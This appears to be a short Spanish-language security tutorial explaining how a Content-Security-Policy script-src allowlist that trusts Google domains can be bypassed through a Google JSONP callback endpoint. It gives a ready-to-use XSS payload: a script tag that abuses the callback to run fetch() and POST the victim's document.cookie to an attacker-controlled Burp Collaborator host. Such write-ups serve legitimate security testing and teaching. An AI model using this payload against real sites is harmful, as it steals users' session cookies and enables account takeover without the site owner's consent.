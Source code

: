 
# BYPASS CSP SCRIPT-SRC CON GOOGLE

Las políticas de seguridad de contenido, o csp, son una protección extra para evitar ataques, que comúnmente son los XSS, entre otros. Para saber si un sitio cuenta con CSP, podemos simplemente hacer una request y capturarla, y al ver la respuesta, podríamos ver un header de tipo "Content-Security-Policy" o usando este sitio, que nos dirá que tipo de protecciones tiene. En este caso nos vamos a centrar en la política "SCRIPT-SRC". Esta protección básicamente se resume de esta manera. Cualquier sitio que este en la lista blanca podrá ejecutar ese código, de lo contrario, no ejecutará nada.

### EJEMPLO:

![imagen](1.png)

En la foto se aprecia que todo el codigo que venga de `*.google.com  fonts.googleapis.com *.bootstrap.com` se podrá ejecutar, lo cual es un grave error, ya que si alguno de esos sitios cuenta con algún JSONP, se podrá bypassear nuestra política.

En este caso, si quisiéramos ejecutar un xss en una web que tenga esa política, usaríamos un JSONP que venga de bootstrap o de google.com, ya que están en la lista blanca.

### PRUEBA DE CONCEPTO
Como vimos anteriormente, cualquier codigo que venga de esos 2 sitios será ejecutado en nuestro sitio. Google cuenta con un JSONP, y con ello, podriamos bypassear esa protección.

`https://accounts.google.com/o/oauth2/revoke?callback=`

Ese es nuestro JSONP, y un ejemplo de uso sería este:

`<script src="https://accounts.google.com/o/oauth2/revoke?callback=fetch(%27http://xxx.burpcollaborator.net', {method: 'POST', mode: 'no-cors', body:document.cookie})"></script>`

En ese ejemplo, enviamos las cookies a nuestro cliente burp con un bypass de csp script-src.



Contacto: [Linkedin](https://www.linkedin.com/in/jairr/) [Twitter](https://twitter.com/_niggurath_)
